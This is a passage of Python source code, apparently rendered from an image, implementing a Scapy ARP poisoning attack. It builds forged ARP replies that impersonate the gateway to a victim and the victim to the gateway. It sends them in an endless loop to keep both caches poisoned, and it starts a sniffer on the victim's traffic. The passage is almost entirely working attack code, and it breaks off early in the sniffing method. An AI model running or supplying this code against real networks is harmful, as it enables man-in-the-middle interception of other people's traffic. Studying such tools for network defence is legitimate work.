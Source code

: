 ```python
        self.sniff_thread = Process(target=self.sniff)
        self.sniff_thread.start()

    """"
    The poison method creates the poisoned packets and sends them to the victim and the gateway
    """
    def poison(self):
        
        # creating a poisoned ARP packet intended for the victim
        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = self.gateway
        poison_victim.pdst = self.victim
        poison_victim.hwdst = self.victimmac
        print(f'ip src: {poison_victim.psrc}')
        print(f'ip dst: {poison_victim.pdst}')
        print(f'mac dst: {poison_victim.hwdst}')
        print(f'mac src: {poison_victim.hwsrc}')
        print(poison_victim.summary())
        print('-'*30)

        # create a poisoned ARP packet for the gateway
        poison_gateway = ARP()
        poison_gateway.op = 2
        poison_gateway.psrc = self.victim
        poison_gateway.pdst = self.gateway
        poison_gateway.hwdst = self.gatewaymac
        print(f'ip src: {poison_gateway.psrc}')
        print(f'ip dst: {poison_gateway.pdst}')
        print(f'mac dst: {poison_gateway.hwdst}')
        print(f'mac_src: {poison_gateway.hwsrc}')
        print(poison_gateway.summary())
        print('-'*30)
        print(f'Beginning the ARP poison. [CTRL-C to stop]')

        """
        start sending the poisoned packets to their destinations in an infinite loop to make sure that the respective ARP cache entries remain poisoned for the duration of the attack
        """
        while True:
            sys.stdout.write('.')
            sys.stdout.flush()
            try:
                send(poison_victim)
                send(poison_gateway)
            
            # The loop will continue until you press CTRL-C (KeyboardInterrupt)
            except KeyboardInterrupt:
                self.restore()
                sys.exit()
            else:
                time.sleep(2)

    """"
    In order to see and record the attack as it happens, we sniff the network traffic with the sniff method
    """
    def sniff(self, count=200):
        # sniff method sleeps for n seconds
        time.sleep(5)
        print(f'Sniffing {count} packets')

        # filtering for packets that have the victim’s IP
```